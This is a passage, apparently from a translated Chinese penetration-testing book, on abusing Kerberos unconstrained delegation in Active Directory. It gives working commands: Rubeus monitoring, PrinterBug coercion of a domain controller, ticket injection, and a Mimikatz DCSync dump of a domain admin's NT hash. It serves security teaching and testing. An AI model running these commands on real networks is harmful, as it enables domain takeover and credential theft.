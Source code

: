 图 5.25 – 启用不受限委派的计算机

注意

此外，我们可以使用 LDAP 过滤器 (`userAccountControl:1.2.**` 840.113556.1.4.803:=524288**) 与 AD PowerShell 模块一起使用。

下一步，我们假设我们已经成功攻陷了`castelrock`服务器，因此可以滥用不受限委派。在提升的权限下，我们将启动 Rubeus 监控模式：

```
Rubeus.exe monitor /interval:3 /nowrap
```

从标准用户上下文，我们通过使用 PrinterBug 强制从域控制器进行身份验证：

![图 5.26 – 强制域控制器进行身份验证](img/B18964_05_26.jpg)

图 5.26 – 强制域控制器进行身份验证

结果，我们捕获了域控制器的 TGT：

![图 5.27 – 域控制器的 TGT](img/B18964_05_27.jpg)

图 5.27 – 域控制器的 TGT

现在，我们将使用 Rubeus 在内存中注入此票证，并使用 Mimikatz 转储域管理员的 NT 哈希：

```
Rubeus.exe ptt /ticket:"base64_ticket_from_capture"
Mimikatz.exe "lsadump::dcsync /user:robert.baratheon"
```
